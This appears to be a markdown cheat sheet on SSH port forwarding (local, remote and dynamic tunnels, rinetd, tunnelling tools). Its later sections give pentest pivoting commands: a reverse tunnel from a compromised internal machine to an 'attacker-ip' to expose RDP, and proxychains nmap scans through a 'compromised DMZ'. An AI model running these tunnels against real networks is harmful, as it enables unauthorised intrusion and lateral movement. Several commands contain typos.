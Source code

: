# Port Forwarding


## Local Port Forwarding

```
ssh -L <local-port-to-listen>:<remote-host>:<remote-port> <gateway>
```

#### Allow connections to a specific blocked server.

From work:
```
ssh -L 9001:banned-site.com:80 user@home
curl http://localhost:9001
```

Says we’re forwarding our local port 9001 to banned-site.com:80, through the gateway `home` (port 22).

![](https://chamibuddhika.files.wordpress.com/2012/03/localportforwarding.jpg)

```
ssh -L 9001:banned:22 user@home
ssh -p 9001 localhost
```

![](https://chamibuddhika.files.wordpress.com/2012/03/sshsessionforwarding.jpg)

Allow remote connections to local port forwards (listening on all interfaces)
```
ssh -L 9001:banned:22 user@home -g
ssh -p 9001 work_machine    #Remotely
```

#### Access a port on your server which can only be accessed from localhost and not remotely.

From local machine:
```
ssh -L 9000:localhost:5432 user@server
psql -h localhost -p 9000
```

Server acts as the gateway and binds server's port 5432 to local port 9000.

## Remote Port Forwarding

#### Allow remote access to restricted network.

From work:
```
ssh -R 9001:intra-ssh-server:22 user@home
```
Server will bind port 9001 on `home` machine to listen for incoming requests which would subsequently be routed through the created SSH channel. Connecting to `localhost:9001` in `home` will forward user to intra:22

From home:
```
ssh -p 9001 localhost
```

![](https://chamibuddhika.files.wordpress.com/2012/03/remoteportforwarding.jpg)

Add `GatewayPorts yes` to `sshd_config` to listening on all interfaces.

#### Allow public access to a local resource through a public server.

```
ssh -R 9000:localhost:3000 user@public_sever
```
```
sudo vim /etc/ssh/sshd_config
GatewayPorts yes
sudo service ssh restart
```

## Dynamic port forwarding

One local port for tunneling data to all remote destinations (SOCKS protocol)

From work:
```
ssh -D 9001 home
```

![](https://chamibuddhika.files.wordpress.com/2012/03/dynamicportforwarding.jpg)

## Tips
Monitoring Tunnels
```
netstat -tunelp
```

Avoid TTL
```
-nNT
```

## rinetd

When outbound only 80 / 443 use port forwarding
```
nano /etc/rinetd.conf
ip1 80 ip2 3389
```
```
bindaddress bindport connectaddress connectport
```  

(ip1:80 will proxy for ip2:3389)

## Creating reverse SSH client to tunnel-out remote desktop port

Creating Tunnel


FROM remote non routable machine
```
pling -l root -pw password attacker-ip -R 3390:127.0.0.1:3389  
```
> localhost 3389 to attacker ip 3389

FROM attacker's machine
```
rdesktop localhost:3390
```

## SSH Dynamic Port Forwarding (compromised DMZ used to scan internal IPs)

Create local SOCS4 proxy:

From attacker's machine (compromised DMZ)
```
ssh -D 8080 root@DMZ-IP

netstat -antp | grep 8080

/etc/proxychains.conf
socks4 127.0.0.1 8080
proxychains nmap -p 3389 -ST -Pn non-routable-remote-ip-range --oepn

proxychains rdesktop rdp-ip-in-non-routable-range
```

## Tools
- XFLTReaT tunnelling framework: https://github.com/earthquake/XFLTReaT
```
TCP
UDP
ICMP
SOCKS v4, 4a, 5
HTTP CONNECT
SCTP (by Darren Martyn @info_dox)
WebSocket
DNS (A/CNAME, PRIVATE, NULL) - Proof of Concept
RDP (Windows only)
```
- https://github.com/sshuttle/sshuttle
- https://github.com/klsecservices/rpivot
- https://github.com/wolfSSL/wolfssh

## References

### Summarized References:
- https://unix.stackexchange.com/questions/115897/whats-ssh-port-forwarding-and-whats-the-difference-between-ssh-local-and-remot
- https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/
- http://www.debianadmin.com/howto-use-ssh-local-and-remote-port-forwarding.html
- https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html

### New References:
- https://vimeo.com/54505525
